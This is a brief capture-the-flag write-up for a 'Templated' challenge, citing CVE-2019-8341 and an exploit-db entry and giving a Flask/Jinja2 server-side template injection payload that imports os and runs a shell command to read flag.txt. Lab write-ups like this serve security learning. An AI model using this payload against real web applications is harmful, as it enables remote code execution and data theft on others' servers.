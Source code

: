## Templated challenge

### CVE-2019-8341

https://www.cvedetails.com/cve/CVE-2019-8341/

https://www.exploit-db.com/exploits/46386

___

![Screenshot from 2021-10-06 02-17-47](https://user-images.githubusercontent.com/86022395/136115708-fd0ec72c-3ae7-4323-bee9-852f0878d963.png)

Flask/Jinja2 Remote Code Execution exploit to cat flag.txt from the server.

payload
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`